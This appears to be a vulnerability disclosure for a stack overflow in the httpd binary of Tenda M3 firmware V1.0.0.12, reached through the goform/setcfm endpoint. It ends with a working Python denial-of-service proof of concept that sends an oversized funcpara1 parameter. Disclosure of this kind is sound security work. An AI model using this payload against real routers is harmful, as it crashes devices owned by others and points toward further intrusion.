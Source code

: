 ## Overview

- The device's official website: https://www.tenda.com.cn/product/M3.html
- Firmware download website: https://www.tenda.com.cn/download/detail-3133.html

## Affected version

V1.0.0.12(4856)

## Vulnerability details

httpd in directory `/bin` has a stack overflow vulnerability. The vulnerability occurrs in the `formSetCfm` function, which can be accessed via the URL `goform/setcfm`

<img src="img/image-20220527204740160.png" alt="image-20220527204740160" style="zoom:67%;" />

When the POST parameter `funcname` equals "save_list_data", the program will enter if branch at line 67. In this branch, program gets the POST parameter `funcpara1` and `funcpara2` then passed them to the function `sub_45E28`

<img src="img/image-20220527205133207.png" alt="image-20220527205133207" style="zoom:67%;" />

In this function, program will enter the danger section when the length of `funcpara2` is greater than 4. In this if branch, program copies `funcpara1` to stack buffer by calling function `sprintf` without checking its length.

## PoC

Poc of Denial of Service(DoS)

```python
import requests

data = {
    b"funcname": b"save_list_data",
    b"funcpara1": b'A'*0x400,
    b"funcpara2": b'BBBBB'
    
}
cookies = {
    b"user": "admin"
}
res = requests.post("http://127.0.0.1/goform/setcfm", data=data, cookies=cookies)
print(res.content)
```

<img src="img/image-20220527205446325.png" alt="image-20220527205446325" style="zoom:50%;" />
